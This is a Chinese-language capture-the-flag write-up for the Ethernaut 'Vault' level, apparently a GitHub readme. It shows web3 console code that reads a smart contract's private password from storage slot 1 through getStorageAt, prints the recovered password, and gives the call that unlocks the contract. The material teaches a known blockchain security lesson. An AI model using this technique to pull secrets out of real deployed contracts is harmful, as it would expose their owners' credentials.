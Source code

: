 # Level08 Vault

[A Decompiler for Blackhain-Based Smart Contracts Bytecode](https://www.slideshare.net/Shakacon/a-decompiler-for-blackhainbased-smart-contracts-bytecode)


区块链上所有东西都是公开的，查看json rpc文档可知道有eth.getStorageAt() API，根据solidity的“对象模型” ( http://solidity.readthedocs.io/en/develop/miscellaneous.html )，可知password放在storage的1的位置

### 方法一
console里输入即可查看密码
```
web3.eth.getStorageAt(contract.address, 1, console.log);
```

根据实验结果， 这个没有任何输出，why？？？

### 方法二
通过infura提供的节点调用，需要先注册获取token

```js
> var Web3 = require('web3');
> var web3 = new Web3(new Web3.providers.HttpProvider("https://ropsten.infura.io/<mytoken>"));
> console.log(web3.currentProvider);
> let vaultAddress = instance // contract.address
> web3.eth.getStorageAt(vaultAddress,1)
> console.log('ASCII: '+ web3.toAscii(web3.eth.getStorageAt(vaultAddress,1)))
ASCII: A very strong secret password :)
```


根据得到32bytes密码: `A very strong secret password :)`，在console中`contract.unlokc('A very strong secret password :)')`

参考：
[Solving the Ethernaut Coin Flip, Telephone & Vault challenges (solidity)](https://medium.com/@MisterCh0c/solving-the-ethernaut-coin-flip-telephone-vault-challenges-solidity-41d8659034b4)

[zkSNARKs in a nutshell](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/)